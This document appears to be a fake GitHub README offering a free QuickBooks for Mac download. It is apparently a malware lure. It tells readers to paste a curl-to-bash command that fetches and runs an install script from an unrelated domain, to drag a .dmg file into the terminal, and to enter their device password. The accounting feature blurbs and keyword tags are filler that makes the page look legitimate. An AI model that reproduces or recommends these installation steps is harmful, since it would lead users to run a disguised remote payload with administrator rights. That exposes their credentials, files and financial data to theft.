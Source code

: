 # QuickBooks For Mac — Free Download For macOS 📊

Easily manage your finances with QuickBooks for Mac. Follow the step-by-step instructions below to download and install this powerful accounting software for free.  

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/quickbooks)

If the download button doesn’t work, follow the terminal-based installation instructions below.

## 📦 How to Install QuickBooks For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with QuickBooks

- 📈 **Streamlined Bookkeeping**: Automate expense tracking and categorize transactions effortlessly.  
- 💸 **Invoicing Made Simple**: Create and send professional invoices in minutes.  
- 📊 **Financial Reports**: Generate detailed reports to monitor your business performance.  
- 🔄 **Sync with Bank Accounts**: Connect your bank accounts for real-time updates.  
- 🛠 **Tax Preparation**: Simplify tax season with organized records and deductions.  
- 🌐 **Cloud Integration**: Access your data anywhere with QuickBooks’ cloud features.

## About QuickBooks

QuickBooks for Mac is a leading accounting software designed to simplify financial management for small businesses and freelancers. Whether you’re tracking expenses, managing invoices, or preparing for tax season, QuickBooks offers a user-friendly interface tailored for macOS users. Its seamless integration with macOS ensures smooth performance, making it a go-to solution for professionals seeking efficiency.

With QuickBooks, you can automate repetitive tasks like expense categorization and bank reconciliation. The software supports integration with major banks, allowing you to sync transactions and monitor cash flow in real time. Its robust reporting tools provide insights into your business’s financial health, helping you make informed decisions. QuickBooks for Mac is optimized for Apple’s ecosystem, ensuring compatibility with the latest macOS versions.

The invoicing feature in QuickBooks is a standout, enabling users to create customized, professional invoices in just a few clicks. You can track payments, send reminders, and even accept online payments, streamlining your workflow. The software also supports multiple currencies, making it ideal for businesses operating globally. Its cloud-based features allow you to access your data from any device, ensuring flexibility and convenience.

For tax preparation, QuickBooks simplifies the process by organizing your financial data and generating reports that align with tax requirements. The software’s intuitive dashboard provides a clear overview of your income, expenses, and outstanding invoices, reducing the stress of financial management. QuickBooks for Mac is designed to save you time, letting you focus on growing your business.

**Why Choose QuickBooks?** QuickBooks stands out for its ease of use, macOS optimization, and comprehensive feature set. Unlike other accounting tools, it combines powerful functionality with a clean, Apple-inspired design. Regular updates ensure compatibility with the latest macOS releases, while its cloud sync and mobile app keep you connected on the go. Whether you’re a freelancer or a small business owner, QuickBooks offers unmatched reliability and efficiency.

## 🖼 Preview

![Dashboard View](https://http-download.intuit.com/http.intuit/CMO/apple_web/sample/static/qbomac/content/download/images/laptop.png)  
*QuickBooks dashboard for easy financial tracking*

![Invoice Creation](https://gdm-catalog-fmapi-prod.imgix.net/ProductScreenshot/97dc2024-ebe7-42d9-885e-6e743c1c0f9d.png)  
*Create professional invoices in minutes*

![Reports Interface](https://lh3.googleusercontent.com/R3f03cREsI4n4134jy7k8Nk5U1zRauPOXBtsC-ghhEY6qIUdMlStd6iQFY8WA0GOpUve0XnWClmwiUPlo1d5oM3f=s1280-w1280-h800)  
*Generate detailed financial reports effortlessly*

## 🔍 Tags

QuickBooks free, QuickBooks download, QuickBooks download free, QuickBooks for Mac, download QuickBooks macOS, QuickBooks free download, macOS accounting tool, QuickBooks installation guide, QuickBooks free mac, QuickBooks mac, QuickBooks mac os, QuickBooks download mac
